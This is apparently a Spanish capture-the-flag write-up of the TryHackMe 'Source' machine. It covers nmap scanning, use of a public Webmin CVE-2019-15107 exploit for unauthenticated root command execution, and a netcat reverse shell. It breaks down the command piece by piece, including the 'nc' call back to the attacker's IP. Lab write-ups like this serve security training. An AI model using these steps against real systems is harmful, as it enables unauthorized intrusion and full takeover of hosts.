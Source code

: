 ```yaml
---
title: Source - TryHackMe
published: 2024-10-15
description: 'En esta ocasión, abordaremos la máquina Source de la plataforma TryHackMe. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.'
image: '../../../assets/TryHackMe/source/source.png'
tags: [TryHackMe, RedTeam, Pentesting, HTTP, Webmin, Reverse Shell, Linux]
category: 'WriteUp'
draft: false 
---
```


## Introducción

**[TryHackMe](https://tryhackme.com/p/Yw4rf)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.

```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

![Source yw4rf](../../../assets/TryHackMe/source/source-1.png)

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

![Source yw4rf](../../../assets/TryHackMe/source/source-2.png)

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Source yw4rf](../../../assets/TryHackMe/source/source-3.png)

## Enumeration (Enumeración)

##### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

##### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.

![Source yw4rf](../../../assets/TryHackMe/source/source-4.png)

Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 

![Source yw4rf](../../../assets/TryHackMe/source/source-5.png)

Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo

![Source yw4rf](../../../assets/TryHackMe/source/source-6.png)

Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.

![Source yw4rf](../../../assets/TryHackMe/source/source-7.png)

Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder

![Source yw4rf](../../../assets/TryHackMe/source/source-8.png)

Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**

![Source yw4rf](../../../assets/TryHackMe/source/source-9.png)

Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 

![Source yw4rf](../../../assets/TryHackMe/source/source-10.png)

## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921

![Source yw4rf](../../../assets/TryHackMe/source/source-11.png)

Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**

![Source yw4rf](../../../assets/TryHackMe/source/source-12.png)

Luego de convertir la URL, lo descargo con `wget` 

![Source yw4rf](../../../assets/TryHackMe/source/source-13.png)

Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos

![Source yw4rf](../../../assets/TryHackMe/source/source-14.png)

Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina

![Source yw4rf](../../../assets/TryHackMe/source/source-15.png)

Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:

![Source yw4rf](../../../assets/TryHackMe/source/source-16.png)

- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-17.png)

Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.

![Source yw4rf](../../../assets/TryHackMe/source/source-18.png)

![Source yw4rf](../../../assets/TryHackMe/source/source-19.png)

Una vez tratada la tty verificamos si somos **root**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-20.png)

Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**.


<br>